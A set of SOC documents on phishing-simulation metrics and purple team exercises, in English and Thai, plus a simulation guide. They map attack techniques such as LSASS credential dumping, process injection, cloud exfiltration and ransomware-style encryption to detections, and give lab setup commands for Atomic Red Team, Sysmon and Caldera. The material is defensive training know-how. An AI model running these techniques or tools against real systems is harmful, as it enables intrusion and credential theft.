### Campaign Metrics Dashboard

| Metric | Target | Calculation |
|:---|:---|:---|
| Click Rate | < 5% | Clicked / Delivered × 100 |
| Report Rate | > 60% | Reported / Delivered × 100 |
| Credential Submit | < 2% | Submitted / Clicked × 100 |
| Training Completion | > 95% | Completed / Required × 100 |

### Repeat Offender Management

| Click Count | Action | Owner |
|:---|:---|:---|
| 1st click | Auto-training | System |
| 2nd click | Manager notification | HR |
| 3rd click | 1-on-1 coaching | Security Team |
| 4th click | Policy review with HR | Manager + HR |

### Template Library Categories

| Category | Difficulty | Use Case |
|:---|:---|:---|
| Generic promo | Easy | Baseline test |
| IT helpdesk | Medium | Credential harvest |
| CEO/CFO spoof | Hard | BEC awareness |

## เอกสารที่เกี่ยวข้อง

-   [Insider Threat Program](../06_Operations_Management/Insider_Threat_Program.en.md) — ลดความเสี่ยงมนุษย์
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — Escalation phishing จริง
-   [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md) — Phishing auto-triage


---

## File: 09_Simulation_Testing/Purple_Team_Exercise.en.md

# Purple Team Exercise Guide

**Document ID**: SIM-SOP-002
**Version**: 1.0
**Classification**: Confidential
**Last Updated**: 2026-02-15

> A **structured guide** for planning, executing, and learning from purple team exercises. Purple teaming combines offensive (Red) and defensive (Blue) teams working **collaboratively** to improve detection, response, and overall security posture.

---

## Purple vs Red vs Blue

| Aspect | Red Team | Blue Team | Purple Team |
|:---|:---|:---|:---|
| **Goal** | Find weaknesses | Defend & detect | Improve together |
| **Approach** | Adversarial, covert | Defensive, reactive | Collaborative, open |
| **Communication** | Minimal (stealth) | After-the-fact | Real-time |
| **Output** | Vulnerability report | Incident reports | Detection improvements |
| **Frequency** | Annual | Continuous | Quarterly |
| **Value** | Realistic testing | Operational defense | Measurable improvement |

---

## Exercise Types

| Type | Duration | Scope | Collaboration | Best For |
|:---|:---:|:---|:---:|:---|
| **Atomic Test** | 1–2 hours | Single technique | Full | Testing one detection rule |
| **Technique Chain** | Half day | 3–5 techniques in sequence | Full | Testing kill chain visibility |
| **Scenario-Based** | 1–2 days | Full attack scenario (APT sim) | Partial/Full | Testing end-to-end detection |
| **Tabletop** | 2–4 hours | Hypothetical discussion | Full | Process & communication testing |
| **Full Simulation** | 1–2 weeks | Enterprise-wide, multi-phase | Minimal (Red covert) | Comprehensive assessment |

---

## Exercise Planning

### Planning Timeline

```mermaid
gantt
    title Purple Team Exercise Timeline
    dateFormat YYYY-MM-DD
    section Planning
        Define scope & objectives    :a1, 2026-03-01, 5d
        Select techniques (ATT&CK)   :a2, after a1, 3d
        Prepare infrastructure        :a3, after a2, 5d
        Pre-brief Blue team           :a4, after a3, 1d
    section Execution
        Conduct exercises             :b1, after a4, 3d
        Real-time tuning              :b2, after a4, 3d
    section Wrap-up
        Debrief & analysis            :c1, after b1, 2d
        Report & improvements         :c2, after c1, 3d
        Implement detection fixes     :c3, after c2, 5d
```

### Scope Definition Template

| Field | Value |
|:---|:---|
| **Exercise Name** | ______________ |
| **Date** | ____-__-__ |
| **Duration** | _____ hours/days |
| **Type** | Atomic / Chain / Scenario / Tabletop |
| **Objective** | ________________________________________________ |
| **Target Systems** | ________________________________________________ |
| **Out of Scope** | ________________________________________________ |
| **Red Team Lead** | ______________ |
| **Blue Team Lead** | ______________ |
| **Exercise Coordinator** | ______________ |
| **Threat Actor Emulated** | ______________ (APT group or generic) |
| **MITRE Techniques** | T______, T______, T______ |
| **Success Criteria** | ________________________________________________ |
| **Risk Mitigation** | ________________________________________________ |

### Pre-Exercise Checklist

- [ ] Scope and objectives documented and approved
- [ ] MITRE ATT&CK techniques selected
- [ ] Attack infrastructure prepared (C2, payloads, accounts)
- [ ] Test environment validated (staging or isolated prod)
- [ ] Blue team briefed on exercise window (not TTPs)
- [ ] Deconfliction process defined (how to distinguish exercise from real attack)
- [ ] Emergency stop procedure defined
- [ ] Legal/compliance approval (if needed)
- [ ] Baseline detection coverage documented

---

## Technique Selection

### By ATT&CK Tactic (Sample Exercise Plan)

| Round | Tactic | Technique | Procedure | Expected Detection | Tool |
|:---:|:---|:---|:---|:---|:---|
| 1 | Initial Access | T1566.001 Spearphishing | Send email with macro doc | Email gateway + Sysmon event | Gophish |
| 2 | Execution | T1059.001 PowerShell | Encoded PowerShell download cradle | Sysmon 1 + cmdline logging | Manual |
| 3 | Persistence | T1053.005 Scheduled Task | Create scheduled task for persistence | Sysmon 1 + Event 4698 | Manual |
| 4 | Defense Evasion | T1055.001 Process Injection | DLL injection into explorer.exe | Sysmon 8, 10 + EDR | Custom tool |
| 5 | Credential Access | T1003.001 LSASS Dump | Dump LSASS with ProcDump | Sysmon 10 + EDR alert | ProcDump |
| 6 | Discovery | T1087.002 Domain Account | query domain admins via net group | Sysmon 1 + cmdline | Manual |
| 7 | Lateral Movement | T1021.002 SMB/Admin Share | Copy file to remote admin share | SMB logging + EDR | Manual |
| 8 | Collection | T1560.001 Archive Data | Compress sensitive files with 7zip | Sysmon 1 + file monitoring | 7zip |
| 9 | Exfiltration | T1567.002 Cloud Storage | Upload to cloud storage service | Proxy/firewall + DLP | rclone |
| 10 | Impact | T1486 Data Encryption | Encrypt test files (ransomware sim) | EDR + file monitoring | SafeRansomSim |

### Prioritization Matrix

| Priority | Criteria | Example |
|:---:|:---|:---|
| 🔴 **P1** | Techniques used by threat actors targeting your industry | APT groups from threat landscape report |
| 🟠 **P2** | Techniques with no current detection coverage | ATT&CK Navigator gaps |
| 🟡 **P3** | Techniques with partial/untested detection | Rules exist but never validated |
| 🟢 **P4** | Techniques for general awareness | Emerging TTPs from advisories |

---

## Execution Framework

### Round-by-Round Format

```mermaid
sequenceDiagram
    participant Red as 🔴 Red Team
    participant Coord as 🟣 Coordinator
    participant Blue as 🔵 Blue Team

    Coord->>Red: Brief: Execute Technique T1059.001
    Red->>Red: Execute attack procedure
    Coord->>Blue: "Did you see anything?" (wait 5 min)
    
    alt Detected
        Blue->>Coord: Yes — alert fired, analyst investigated
        Coord->>Coord: Record: ✅ Detected
    else Partially Detected
        Blue->>Coord: Event logged but no alert
        Coord->>Coord: Record: ⚠️ Partial
        Red->>Blue: Show exact procedure & artifacts
        Blue->>Blue: Create/tune detection rule
    else Not Detected
        Blue->>Coord: Nothing seen
        Coord->>Coord: Record: ❌ Missed
        Red->>Blue: Show exact procedure & artifacts
        Blue->>Blue: Create new detection rule
    end
    
    Coord->>Coord: Move to next round
```

### Execution Log Template

| Round | Time | Technique | Procedure | Red Team Action | Blue Team Result | Detection Status | Notes |
|:---:|:---|:---|:---|:---|:---|:---:|:---|
| 1 | __:__ | T______.___ | ____________ | ____________ | ____________ | ✅/⚠️/❌ | ____________ |
| 2 | __:__ | T______.___ | ____________ | ____________ | ____________ | ✅/⚠️/❌ | ____________ |
| 3 | __:__ | T______.___ | ____________ | ____________ | ____________ | ✅/⚠️/❌ | ____________ |

### Detection Status Definitions

| Status | Meaning | Action Required |
|:---:|:---|:---|
| ✅ **Detected** | Alert fired, analyst correctly triaged | Document as validated detection |
| ⚠️ **Partial** | Event logged but no alert, or alert with wrong severity | Tune existing rule or create new alert |
| ❌ **Missed** | No log, no event, no alert | Create new log source + detection rule |
| 🔄 **Bypassed** | Detection exists but was evaded | Research evasion technique, improve rule |

---

## Tools & Infrastructure

### Red Team Tools (Open Source)

| Tool | Purpose | ATT&CK Mapping |
|:---|:---|:---|
| **Atomic Red Team** | Pre-built atomic tests for each technique | All tactics |
| **CALDERA** | Automated adversary emulation platform | All tactics |
| **Sliver** | Open source C2 framework | C2, Execution |
| **Impacket** | Network protocol attacks | Lateral Movement, Credential Access |
| **Mimikatz** | Credential dumping | Credential Access |
| **BloodHound** | AD attack path mapping | Discovery |
| **CrackMapExec** | Active Directory exploitation | Multiple |
| **Gophish** | Phishing simulation | Initial Access |

### Blue Team Tools

| Tool | Purpose |
|:---|:---|
| **SIEM** | Alert monitoring, log analysis |
| **EDR Console** | Endpoint detection review |
| **ATT&CK Navigator** | Coverage mapping & gap tracking |
| **Sigma** | Detection rule library |
| **Velociraptor** | Live forensics during exercise |

### Safety Controls

| Control | Description |
|:---|:---|
| **Deconfliction code** | Unique tag in all exercise traffic/files for identification |
| **Emergency stop** | Coordinator can halt exercise immediately |
| **Scope limits** | No production data destruction, no external egress |
| **Test accounts** | Dedicated accounts for exercise only |
| **Rollback plan** | How to undo all changes post-exercise |

---

## Post-Exercise Analysis

### Results Summary Template

| Metric | Value |
|:---|:---:|
| **Total techniques tested** | _____ |
| **Detected (✅)** | _____ (___%) |
| **Partially detected (⚠️)** | _____ (___%) |
| **Missed (❌)** | _____ (___%) |
| **Bypassed (🔄)** | _____ (___%) |
| **New detection rules created** | _____ |
| **Existing rules tuned** | _____ |
| **Log source gaps identified** | _____ |
| **MTTR during exercise** | ___ min |

### Detection Coverage: Before vs After

| Tactic | Before (%) | After (%) | Improvement |
|:---|:---:|:---:|:---:|
| Initial Access | ___% | ___% | +___% |
| Execution | ___% | ___% | +___% |
| Persistence | ___% | ___% | +___% |
| Privilege Escalation | ___% | ___% | +___% |
| Defense Evasion | ___% | ___% | +___% |
| Credential Access | ___% | ___% | +___% |
| Discovery | ___% | ___% | +___% |
| Lateral Movement | ___% | ___% | +___% |
| Collection | ___% | ___% | +___% |
| C2 | ___% | ___% | +___% |
| Exfiltration | ___% | ___% | +___% |
| Impact | ___% | ___% | +___% |

### Action Items

| # | Finding | Technique | Action | Owner | Due Date | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 1 | ______________ | T______ | Create detection rule | ____________ | ____-__-__ | ⬜ |
| 2 | ______________ | T______ | Add log source | ____________ | ____-__-__ | ⬜ |
| 3 | ______________ | T______ | Tune existing rule | ____________ | ____-__-__ | ⬜ |

---

## Exercise Schedule

| Quarter | Exercise Type | Threat Actor / Focus | Techniques |
|:---:|:---|:---|:---:|
| Q1 | Technique Chain | Ransomware Kill Chain | 8–10 |
| Q2 | Scenario-Based | APT targeting your industry | 10–15 |
| Q3 | Atomic Tests | Detection gap remediation | 15–20 |
| Q4 | Full Simulation | Annual comprehensive assessment | 20+ |

> Each exercise should build on findings from the previous one.

---

## Metrics & Maturity

| Metric | Level 1 | Level 3 | Level 5 |
|:---|:---|:---|:---|
| Exercise frequency | Annual | Quarterly | Monthly |
| Detection rate | < 30% | 50–70% | > 85% |
| Time to create new detection | > 1 week | < 3 days | < 4 hours |
| SOC analysts involved | 1–2 | Full shift | All tiers |
| Automation of testing | None | Some (Atomic RT) | Full (CALDERA + BAS) |

---

## Related Documents

-   [Simulation & Testing Guide](../09_Simulation_Testing/Simulation_Guide.en.md) — Testing procedures
-   [Detection Rule Testing](../06_Operations_Management/Detection_Rule_Testing.en.md) — Rule validation
-   [Alert Tuning SOP](../06_Operations_Management/Alert_Tuning.en.md) — Tuning methodology
-   [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md) — Detection maturity
-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md) — Proactive hunting
-   [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md) — Automation
-   [Threat Landscape Report](../06_Operations_Management/Threat_Landscape_Report.en.md) — Threat context


---

## File: 09_Simulation_Testing/Purple_Team_Exercise.th.md

# Purple Team Exercise Guide / คู่มือ Purple Team Exercise

**รหัสเอกสาร**: SIM-SOP-002
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ลับ
**อัปเดตล่าสุด**: 2026-02-15

> คู่มือสำหรับวางแผน, ดำเนินการ, และเรียนรู้จาก purple team exercises ซึ่งรวมทีมบุกรุก (Red) และทีมป้องกัน (Blue) ทำงาน **ร่วมกัน** เพื่อพัฒนา detection, response, และ security posture

---

## Purple vs Red vs Blue

| ด้าน | Red Team | Blue Team | Purple Team |
|:---|:---|:---|:---|
| **เป้าหมาย** | หาจุดอ่อน | ป้องกัน & ตรวจจับ | พัฒนาร่วมกัน |
| **แนวทาง** | โจมตี, ลับ | ป้องกัน, reactive | ร่วมมือ, เปิดเผย |
| **สื่อสาร** | น้อยที่สุด | หลังเกิดเหตุ | Real-time |
| **ความถี่** | รายปี | ต่อเนื่อง | รายไตรมาส |

---

## ประเภท Exercise

| ประเภท | ระยะเวลา | ขอบเขต | ความร่วมมือ | เหมาะกับ |
|:---|:---:|:---|:---:|:---|
| **Atomic Test** | 1–2 ชม. | Technique เดียว | เต็มที่ | ทดสอบ detection rule เดียว |
| **Technique Chain** | ครึ่งวัน | 3–5 techniques ต่อเนื่อง | เต็มที่ | ทดสอบ kill chain visibility |
| **Scenario-Based** | 1–2 วัน | สถานการณ์โจมตีเต็มรูปแบบ | บางส่วน/เต็มที่ | ทดสอบ detection ครบวงจร |
| **Tabletop** | 2–4 ชม. | อภิปรายสถานการณ์สมมติ | เต็มที่ | ทดสอบกระบวนการ & สื่อสาร |
| **Full Simulation** | 1–2 สัปดาห์ | ทั้งองค์กร, หลายเฟส | น้อย (Red ลับ) | ประเมินครอบคลุม |

---

## การวางแผน

### Template กำหนดขอบเขต

| ฟิลด์ | ค่า |
|:---|:---|
| **ชื่อ Exercise** | ______________ |
| **วันที่** | ____-__-__ |
| **ระยะเวลา** | _____ ชม./วัน |
| **ประเภท** | Atomic / Chain / Scenario / Tabletop |
| **วัตถุประสงค์** | ________________________________________________ |
| **ระบบเป้าหมาย** | ________________________________________________ |
| **นอกขอบเขต** | ________________________________________________ |
| **Red Team Lead** | ______________ |
| **Blue Team Lead** | ______________ |
| **MITRE Techniques** | T______, T______, T______ |

### Checklist ก่อน Exercise

- [ ] ขอบเขตและวัตถุประสงค์ได้รับอนุมัติ
- [ ] เลือก ATT&CK techniques แล้ว
- [ ] เตรียม infrastructure สำหรับโจมตี
- [ ] แจ้ง Blue team เรื่องช่วงเวลา (ไม่บอก TTPs)
- [ ] กำหนดกระบวนการแยกแยะ exercise กับ attack จริง
- [ ] กำหนดวิธีหยุดฉุกเฉิน
- [ ] อนุมัติจากกฎหมาย/compliance (ถ้าจำเป็น)

---

## การเลือก Technique

### แผน Exercise ตัวอย่าง (10 รอบ)

| รอบ | Tactic | Technique | เครื่องมือ | Detection ที่คาดหวัง |
|:---:|:---|:---|:---|:---|
| 1 | Initial Access | T1566.001 Phishing | Gophish | Email gateway + Sysmon |
| 2 | Execution | T1059.001 PowerShell | Manual | Sysmon 1 + cmdline |
| 3 | Persistence | T1053.005 Scheduled Task | Manual | Sysmon 1 + Event 4698 |
| 4 | Defense Evasion | T1055.001 Process Injection | Custom | Sysmon 8, 10 + EDR |
| 5 | Credential Access | T1003.001 LSASS Dump | ProcDump | Sysmon 10 + EDR |
| 6 | Discovery | T1087.002 Domain Account | Manual | Sysmon 1 + cmdline |
| 7 | Lateral Movement | T1021.002 SMB Share | Manual | SMB logging + EDR |
| 8 | Collection | T1560.001 Archive Data | 7zip | Sysmon 1 + file monitor |
| 9 | Exfiltration | T1567.002 Cloud Storage | rclone | Proxy/firewall + DLP |
| 10 | Impact | T1486 Encryption | SafeRansomSim | EDR + file monitor |

---

## Framework การดำเนินการ

### รูปแบบรอบต่อรอบ

```mermaid
sequenceDiagram
    participant Red as 🔴 Red Team
    participant Coord as 🟣 Coordinator
    participant Blue as 🔵 Blue Team

    Coord->>Red: สั่งให้ทำ Technique T1059.001
    Red->>Red: ดำเนินการโจมตี
    Coord->>Blue: เห็นอะไรไหม? (รอ 5 นาที)
    
    alt ตรวจพบ
        Blue->>Coord: ใช่ — alert ขึ้น, analyst สืบสวนแล้ว
        Coord->>Coord: บันทึก: ✅ ตรวจพบ
    else ตรวจพบบางส่วน
        Blue->>Coord: มี event แต่ไม่มี alert
        Coord->>Coord: บันทึก: ⚠️ บางส่วน
        Blue->>Blue: สร้าง/ปรับ detection rule
    else ไม่พบ
        Blue->>Coord: ไม่เห็นอะไร
        Coord->>Coord: บันทึก: ❌ พลาด
        Blue->>Blue: สร้าง detection rule ใหม่
    end
```

### บันทึกการดำเนินการ

| รอบ | เวลา | Technique | สถานะ Detection | หมายเหตุ |
|:---:|:---|:---|:---:|:---|
| 1 | __:__ | T______.___ | ✅/⚠️/❌ | ____________ |
| 2 | __:__ | T______.___ | ✅/⚠️/❌ | ____________ |

### ความหมายสถานะ

| สถานะ | ความหมาย | ต้องทำ |
|:---:|:---|:---|
| ✅ **ตรวจพบ** | Alert ขึ้น, analyst triage ถูกต้อง | บันทึกเป็น validated detection |
| ⚠️ **บางส่วน** | มี log แต่ไม่มี alert | ปรับ rule หรือสร้าง alert ใหม่ |
| ❌ **พลาด** | ไม่มี log, ไม่มี event | สร้าง log source + detection rule |
| 🔄 **Bypass** | มี detection แต่ถูกหลบ | วิจัยเทคนิค evasion, ปรับ rule |

---

## เครื่องมือ

### Red Team (Open Source)

| เครื่องมือ | วัตถุประสงค์ |
|:---|:---|
| **Atomic Red Team** | ทดสอบแบบ atomic ตาม ATT&CK |
| **CALDERA** | Adversary emulation อัตโนมัติ |
| **Sliver** | C2 framework |
| **Impacket** | โจมตี network protocol |
| **BloodHound** | Mapping AD attack path |

### การควบคุมความปลอดภัย

| การควบคุม | คำอธิบาย |
|:---|:---|
| **Deconfliction code** | Tag เฉพาะใน traffic/file ของ exercise |
| **Emergency stop** | Coordinator หยุดได้ทันที |
| **Scope limits** | ห้ามทำลายข้อมูล production |
| **Test accounts** | ใช้ account เฉพาะ exercise |
| **Rollback plan** | วิธีย้อนเปลี่ยนแปลงหลัง exercise |

---

## การวิเคราะห์หลัง Exercise

### สรุปผลลัพธ์

| ตัวชี้วัด | ค่า |
|:---|:---:|
| Techniques ทดสอบทั้งหมด | _____ |
| ตรวจพบ (✅) | _____ (___%) |
| ตรวจพบบางส่วน (⚠️) | _____ (___%) |
| พลาด (❌) | _____ (___%) |
| Detection rules ใหม่ที่สร้าง | _____ |
| Rules ที่ปรับปรุง | _____ |

### Coverage: ก่อน vs หลัง

| Tactic | ก่อน (%) | หลัง (%) | เพิ่มขึ้น |
|:---|:---:|:---:|:---:|
| Initial Access | ___% | ___% | +___% |
| Execution | ___% | ___% | +___% |
| Persistence | ___% | ___% | +___% |
| Credential Access | ___% | ___% | +___% |
| Lateral Movement | ___% | ___% | +___% |
| Exfiltration | ___% | ___% | +___% |

---

## ตาราง Exercise

| ไตรมาส | ประเภท | Focus | จำนวน Techniques |
|:---:|:---|:---|:---:|
| Q1 | Technique Chain | Ransomware Kill Chain | 8–10 |
| Q2 | Scenario-Based | APT ที่เจาะอุตสาหกรรมเรา | 10–15 |
| Q3 | Atomic Tests | แก้ไข detection gaps | 15–20 |
| Q4 | Full Simulation | ประเมินครอบคลุมประจำปี | 20+ |

---

## Detection Gap Remediation

| Gap ที่พบ | ประเภท | วิธีแก้ | เวลา |
|:---|:---|:---|:---:|
| ไม่มี rule สำหรับ technique | Rule gap | สร้าง Sigma rule | 1–2 วัน |
| Rule มีแต่ไม่ trigger | Logic error | ปรับ threshold/condition | 0.5 วัน |
| Log ไม่ครอบคลุม | Data gap | เพิ่ม log source | 3–5 วัน |
| Alert ถูก suppress | Tuning error | ทบทวน suppression list | 0.5 วัน |
| ไม่มี playbook | Process gap | สร้าง playbook | 2–3 วัน |

## Atomic Test Execution Workflow

```mermaid
graph LR
    Select["เลือก Technique"] --> Prep["เตรียม Lab"]
    Prep --> Notify["แจ้ง SOC"]
    Notify --> Execute["รัน Test"]
    Execute --> Observe["สังเกต Detection"]
    Observe --> Document["บันทึกผล"]
    Document --> Gap["วิเคราะห์ Gap"]
    Gap --> Fix["สร้าง/ปรับ Rule"]
    Fix --> Retest["ทดสอบซ้ำ"]
```

## Safety Guidelines

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| แจ้ง SOC ล่วงหน้า + ระบุ window | รัน test โดยไม่แจ้ง |
| ใช้ test accounts/hosts เท่านั้น | ใช้ production accounts |
| มี rollback plan ก่อนเริ่ม | รัน destructive tests โดยไม่มี backup |
| บันทึกทุก step ที่ทำ | ลืมทำ cleanup หลังทดสอบ |
| จำกัดขอบเขตตาม scope | ขยายขอบเขตโดยไม่ได้รับอนุมัติ |

## Report Template Summary

| เกณฑ์ | Red Team | Blue Team | Purple (ร่วมกัน) |
|:---|:---|:---|:---|
| **Techniques ทดสอบ** | [จำนวน] | – | [จำนวน] |
| **ตรวจจับได้** | – | [จำนวน]/[ทั้งหมด] | Detection Rate: [XX]% |
| **Gaps** | – | [จำนวน] | Priority: [P1/P2/P3] |
| **Rules สร้างใหม่** | – | [จำนวน] | ETA Deploy: [วันที่] |

## MITRE ATT&CK Coverage by Exercise

### Exercise Scenario Template

| Phase | Tactic | Technique | Tool |
|:---|:---|:---|:---|
| 1 | Initial Access | T1566.001 Phishing | GoPhish |
| 2 | Execution | T1059.001 PowerShell | Atomic RT |
| 3 | Persistence | T1053.005 Schtask | Manual |
| 4 | Privilege Esc | T1548.002 UAC Bypass | Metasploit |
| 5 | Defense Evasion | T1070.001 Log Clear | Manual |
| 6 | Credential Access | T1003 Mimikatz | Mimikatz |
| 7 | Lateral Movement | T1021.002 SMB | PsExec |
| 8 | Collection | T1074.001 Staging | Manual |
| 9 | Exfiltration | T1048 C2 Channel | Cobalt Strike |

### Exercise After-Action Report Template

```
## After-Action Report
- Exercise Date: [วันที่]
- Participants: Red [N], Blue [N], White [N]
- Duration: [ชั่วโมง]
- Techniques Tested: [จำนวน]
- Techniques Detected: [จำนวน] ([%])
- Detection Gaps: [รายละเอียด]
- New Rules Created: [จำนวน]
- Remediation Actions: [รายการ]
```

### Exercise Budget Planning

| Item | Cost Estimate | Notes |
|:---|:---|:---|
| Tooling (annual) | 200K-500K THB | Licenses |
| External Red Team | 300K-1M THB | Per engagement |
| Lab environment | 100K-300K THB | VMs + network |
| Training | 50K-150K THB | Per person |

### Exercise Complexity Levels

| Level | Duration | Techniques |
|:---|:---|:---|
| Basic | 1 day | 3-5 |
| Intermediate | 3 days | 8-12 |
| Advanced | 1-2 weeks | 15-20 |

## เอกสารที่เกี่ยวข้อง

-   [Simulation & Testing Guide](../09_Simulation_Testing/Simulation_Guide.en.md)
-   [Detection Rule Testing](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [Alert Tuning SOP](../06_Operations_Management/Alert_Tuning.en.md)
-   [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md)
-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md)


---

## File: 09_Simulation_Testing/Simulation_Guide.en.md

# Simulation & Purple Teaming Guide

This guide explains how to conduct a **Purple Team Exercise** (Red Team Attacks + Blue Team Defends) to validate the SOC's readiness using the provided Playbooks and Detection Rules.

## Prerequisites
1.  **Test Environment**: A dedicated VM or Lab (Do NOT run in Production).
2.  **Tools**:
    -   **Atomic Red Team**: For executing attacks.
    -   **Caldera** (Optional): For automated campaigns.
    -   **SIEM**: To view alerts.

## Execution Workflow (The Feedback Loop)

```mermaid
graph TD
    Execute["1. Execute (Red Team)"] --> Detect["2. Detect (Blue Team)"]
    Detect --> Respond["3. Respond (Blue Team)"]
    Respond --> Improve["4. Improve (Purple)"]
    Improve --> Execute
```

### Step 1: Execute (Red)
Run the Atomic Test corresponding to the Playbook you want to test.
*Example (Phishing)*:
```powershell
Invoke-AtomicTest T1059.001
```

### Step 2: Detect (Blue)
Check the SIEM Dashboard.
-   **Did the alert trigger?** (Check `proc_office_spawn_powershell.yml` logic).
-   **Was the severity correct?**
-   **Was all context captured?** (User, Host, Command Line).

### Step 3: Respond (Blue)
Open the Playbook (**PB-01 Phishing**).
-   Follow the steps: Analyze -> Contain -> Eradicate.
-   **Gap Analysis**: Did the playbook miss any steps? Was the containment tool (EDR) effective?

### Step 4: Improve (Purple)
-   **Tune Rule**: If alert didn't fire, adjust the Sigma rule.
-   **Update Playbook**: Add missing steps found during the drill.

## Schedule
Recommended Validation Schedule:
-   **Weekly**: Test 1 high-priority Playbook (Ransomware, Phishing).
-   **Monthly**: Test 3-5 random Playbooks.
-   **Quarterly**: Full Chain simulation (Phishing -> Lateral Mov -> Exfil).

## Test Coverage Matrix

| MITRE Tactic | Playbook(s) | Atomic Test(s) | Sigma Rule(s) | Last Tested | Result |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Initial Access | PB-01 Phishing | T1566.001 | cloud_email_inbox_rule | [Date] | [Pass/Fail] |
| Execution | PB-11 Suspicious Script | T1059.001 | proc_powershell_encoded | [Date] | [Pass/Fail] |
| Persistence | PB-05 Account Compromise | T1078 | cloud_unusual_login | [Date] | [Pass/Fail] |
| Privilege Escalation | PB-06 Privilege Escalation | T1068 | win_domain_admin_group_add | [Date] | [Pass/Fail] |
| Defense Evasion | PB-20 Log Clearing | T1070.001 | win_security_log_cleared | [Date] | [Pass/Fail] |
| Credential Access | PB-04 Brute Force | T1110 | win_multiple_failed_logins | [Date] | [Pass/Fail] |
| Discovery | PB-34 Network Discovery | T1046/T1135 | win_network_discovery | [Date] | [Pass/Fail] |
| Lateral Movement | PB-09 Lateral Movement | T1021.002 | win_admin_share_access | [Date] | [Pass/Fail] |
| Collection | PB-35 Data Collection | T1560 | win_data_collection_staging | [Date] | [Pass/Fail] |
| Exfiltration | PB-08 Data Exfiltration | T1041 | net_large_upload | [Date] | [Pass/Fail] |
| C2 | PB-07 C2 Communication | T1071 | net_beaconing | [Date] | [Pass/Fail] |
| Impact | PB-02 Ransomware | T1486 | file_bulk_renaming | [Date] | [Pass/Fail] |

## Scoring Criteria

| Score | Definition | Action Required |
| :---: | :--- | :--- |
| ✅ **Pass** | Alert triggered within SLA, correct severity, full context captured | Log result, schedule re-test |
| ⚠️ **Partial** | Alert triggered but delay/missing context/wrong severity | Tune Sigma rule + update playbook |
| ❌ **Fail** | No alert triggered or completely missed | Create/fix Sigma rule, escalate gap |

## Exercise Report Template

After each exercise, document:

1. **Exercise Summary**: Date, scope, participants, techniques tested
2. **Detection Results**: Per-technique pass/partial/fail results
3. **Response Effectiveness**: Playbook steps followed, gaps identified
4. **Gap Analysis**: Missing detections, slow response, tool limitations
5. **Remediation Plan**: Sigma rule updates, playbook amendments, tool improvements
6. **Timeline**: Target dates for completing remediation items


## Lab Environment Setup

### Minimum Requirements
| Component | Specification | Purpose |
|:---|:---|:---|
| Windows 10/11 VM | 4GB RAM, 40GB disk | Target for attack simulations |
| Kali Linux VM | 2GB RAM, 20GB disk | Attack platform |
| SIEM | Wazuh/Elastic (single node) | Detection validation |
| EDR | Sysmon + Winlogbeat | Telemetry collection |
| Network bridge | Isolated VLAN/NAT network | Traffic isolation |

### Quick Setup Commands

#### Install Atomic Red Team (on Windows target)
```powershell
# Install from PowerShell Gallery
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
Install-Module -Name invoke-atomicredteam -Scope CurrentUser -Force
Import-Module invoke-atomicredteam

# Install all atomic tests
Install-AtomicRedTeam -getAtomics -Force

# Verify installation
Invoke-AtomicTest T1059.001 -ShowDetails
```

#### Install Sysmon (for telemetry)
```powershell
# Download Sysmon + SwiftOnSecurity config
Invoke-WebRequest -Uri "https://live.sysinternals.com/Sysmon64.exe" -OutFile Sysmon64.exe
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile sysmonconfig.xml

# Install with config
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

#### Install MITRE Caldera (attacker server)
```bash
# Clone Caldera
git clone https://github.com/mitre/caldera.git --recursive
cd caldera

# Run Caldera server
pip3 install -r requirements.txt
python3 server.py --insecure --build

# Access: http://localhost:8888 (default: admin/admin)
```

## Detailed Test Scenarios

### Scenario 1: Phishing → Malware → C2 (Full Kill Chain)

```
SETUP:
  1. Prepare phishing email with macro-enabled document
  2. Enable Sysmon + SIEM logging on target
  3. Set up C2 listener (Caldera agent or netcat)

EXECUTION:
  Step 1: T1566.001 — Deliver phishing email with attachment
  Step 2: T1204.002 — User opens attachment, enables macros
  Step 3: T1059.001 — PowerShell executes payload
  Step 4: T1071.001 — Callback to C2 over HTTP/HTTPS
  Step 5: T1082     — System discovery commands

VALIDATION:
  □ Email gateway detected phishing? (Yes/No)
  □ EDR blocked macro execution? (Yes/No)
  □ SIEM alert for PowerShell execution? (Yes/No)
  □ Network alert for C2 callback? (Yes/No)
  □ Playbook PB-01 followed correctly? (Yes/No)
  □ Time to detect: ___ min (target: ≤15 min)
```

### Scenario 2: Credential Theft → Lateral Movement

```
SETUP:
  1. Create test accounts with weak passwords
  2. Enable authentication logging
  3. Deploy Mimikatz on test VM

EXECUTION:
  Step 1: T1110.003 — Password spray against test accounts
  Step 2: T1078.002 — Login with compromised credentials
  Step 3: T1003.001 — Run Mimikatz for credential dump
  Step 4: T1021.002 — Move laterally via SMB/Admin share
  Step 5: T1570     — Copy tools to remote system

VALIDATION:
  □ Multiple failed login alerts triggered? (Yes/No)
  □ Successful login after failures flagged? (Yes/No)
  □ Mimikatz execution detected by EDR? (Yes/No)
  □ Lateral movement detected? (Yes/No)
  □ Playbook PB-04 + PB-12 followed? (Yes/No)
  □ Time to contain: ___ min (target: ≤30 min)
```

### Scenario 3: Ransomware Simulation

```
SETUP:
  1. Create test files in isolated folder
  2. Prepare benign "encryption" script (rename files)
  3. Disable real encryption — use rename only!

EXECUTION:
  Step 1: T1486 — Bulk rename files (.encrypted extension)
  Step 2: T1490 — Attempt shadow copy deletion command
  Step 3: T1489 — Stop key services (test services only)
  Step 4: T1485 — Create ransom note text file

VALIDATION:
  □ File rename bulk activity detected? (Yes/No)
  □ Shadow copy deletion attempt flagged? (Yes/No)
  □ Service stop alert triggered? (Yes/No)
  □ EDR auto-isolated the endpoint? (Yes/No)
